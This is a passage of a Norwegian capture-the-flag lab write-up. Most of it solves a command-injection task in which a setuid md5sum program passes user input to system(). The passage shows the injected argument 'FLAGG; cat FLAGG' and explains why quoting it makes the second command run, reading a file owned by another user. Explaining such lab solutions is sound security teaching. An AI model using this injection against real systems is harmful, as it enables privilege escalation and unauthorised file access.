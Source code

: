```sh
$ ./cat FLAGG
8e1c3138b0691a6519126acf57a323e
```

FLAGG: `08e1c...........................`

---

## 1.3_Injection

Denne oppgaven er ikke veldig ulik `1.2_setuid` i det at man utnytter egenskapene og privilegiene til et program man lov å execute for å få tilgang til noe man ikke egentlig har privilegiene til. Vi ser at filene eies av `basic3`, og `FLAGG` filen som vi er mest interessert i har igjen privilegier som kun gjør at eier kan lese filen:

```sh
$ ls -lah
total 23K
drwxr-xr-x 2 basic3 login 1.0K Feb 12  2020 .
drwxr-xr-x 8 login  login 1.0K Dec 17 19:54 ..
-r-------- 1 basic3 login   33 Feb 12  2020 FLAGG
-r--r--r-- 1 basic3 login 1.1K Feb 12  2020 LESMEG.md
-r-sr-xr-x 1 basic3 login  17K Feb 12  2020 md5sum
-r--r--r-- 1 basic3 login  450 Feb 12  2020 md5sum.c
```

Vi får vite at programmene i mappen sender brukerkontrollert data videre til operativsystemets `system()`-funksjon uten _sanitisering_, og som i forrige oppgave ser vi at selv om `basic3` er eier så har vi execute rettigheter.

`md5sum` viser seg å være et program som lager md5 checksums av hva enn fil du sender inn som argument, men som det blir hintet til (og som vi kan se av kommandoen `system(cmd)` i kildekoden) kan vi kanskje sende inn litt andre kommandoer også...

```sh
$ ./md5sum "FLAGG; cat FLAGG"
Kjører kommando:
/usr/bin/md5sum FLAGG; cat FLAGG

Resultat:
bf1ee5c1af8d90c18cb594cc264edd33  FLAGG
64021..........................
```

Nøkkelen her er å ha double-quotes rundt kommandoen. Dersom man kjører kommandoen `./md5sum FLAGG; cat FLAGG` vil man få permission denied, men alt innenfor double-quotes blir av `md5sum` regnet som et argument - helt til det når `system()` som kommer til å se dette som flere.

FLAGG: `64021...........................`

---

## 1.4_overflow

Vi har følgende filer:
